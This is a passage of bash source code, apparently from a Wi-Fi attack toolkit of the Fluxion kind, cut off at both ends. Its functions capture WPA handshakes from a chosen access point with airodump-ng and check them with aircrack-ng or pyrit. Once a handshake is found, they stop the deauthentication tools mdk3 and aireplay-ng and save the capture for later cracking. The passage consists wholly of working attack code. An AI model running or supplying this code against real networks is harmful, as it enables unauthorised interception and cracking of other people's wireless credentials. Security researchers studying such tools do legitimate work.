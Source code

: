                 done
        fi
}

# Capture all
function capture {

        conditional_clear
        if ! ps -A | grep -q airodump-ng; then

                rm -rf $DUMP_PATH/$Host_MAC*
                xterm $HOLD -title "Capturing data on channel --> $Host_CHAN" $TOPRIGHT -bg "#000000" -fg "#FFFFFF" -e airodump-ng  --bssid $Host_MAC -w $DUMP_PATH/$Host_MAC -c $Host_CHAN -a $WIFI_MONITOR --ignore-negative-one &
        fi
}

# Check the handshake before continuing
function checkhandshake {

        if [ "$handshakemode" = "normal" ]; then
                if aircrack-ng $DUMP_PATH/$Host_MAC-01.cap | grep -q "1 handshake"; then
                        killall airodump-ng mdk3 aireplay-ng &>$flux_output_device
                        wpaclean $HANDSHAKE_PATH/$Host_SSID2-$Host_MAC.cap $DUMP_PATH/$Host_MAC-01.cap &>$flux_output_device
                        certssl
                        i=2
                        break

                else
                        Handshake_statuscheck="${red}Not_Found$transparent"

                fi
        elif [ "$handshakemode" = "hard" ]; then
                pyrit -r $DUMP_PATH/$Host_MAC-01.cap -o $DUMP_PATH/test.cap stripLive &>$flux_output_device

                if pyrit -r $DUMP_PATH/test.cap analyze 2>&1 | grep -q "good,"; then
                        killall airodump-ng mdk3 aireplay-ng &>$flux_output_device
                        pyrit -r $DUMP_PATH/test.cap -o $HANDSHAKE_PATH/$Host_SSID2-$Host_MAC.cap strip &>$flux_output_device
                        certssl
                        i=2
                        break

                else
                        if aircrack-ng $DUMP_PATH/$Host_MAC-01.cap | grep -q "1 handshake"; then
                                Handshake_statuscheck="${yellow}Corrupted$transparent"
                        else
                                Handshake_statuscheck="${red}Not_found$transparent"

                        fi
                fi
